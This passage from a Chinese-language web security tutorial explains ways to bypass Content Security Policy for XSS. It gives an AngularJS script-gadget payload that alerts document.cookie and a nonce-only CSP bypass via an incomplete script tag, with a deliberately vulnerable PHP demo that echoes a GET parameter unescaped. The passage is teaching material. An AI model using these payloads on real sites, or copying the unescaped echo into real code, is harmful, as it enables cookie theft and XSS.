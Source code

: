 ```html
<script src=https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.0.8/angular.min.js></script><div ng-app> 
    {{constructor.constructor('alert(document.cookie)')()}}
```

![image-20210614162055744](CSP策略及绕过方法/image-20210614162055744.png)

这里的绕过方法详细说明可以参考链接

https://www.blackhat.com/docs/us-17/thursday/us-17-Lekies-Dont-Trust-The-DOM-Bypassing-XSS-Mitigations-Via-Script-Gadgets.pdf

https://github.com/google/security-research-pocs/tree/master/script-gadgets

### 0x05 不完整script标签绕过

**条件**

1.可控点在合法script标签上方,且其中没有其他标签

2.XSS页面的CSP `script-src`只采用了`nonce`方式

**demo**

csp设置

```php+HTML
<?php header("X-XSS-Protection:0");?>
<meta http-equiv="Content-Security-Policy" content="default-src 'self'; script-src 'nonce-xxxxx'"><?php echo $_GET['a']?>
<script nonce='xxxxx'>  //do some thing</script>
```

利用方法

```html
http://127.0.0.1/1.php?a=<script src=data:text/plain,alert(1)
```

我们可以发现<script就会被变成一个属性，值为空，之后的`nonce='xxxxx'`会被当成我们输入的script标签中的一个属性，成功绕过`script-src`，`</script`就会被变成一个属性，值为空
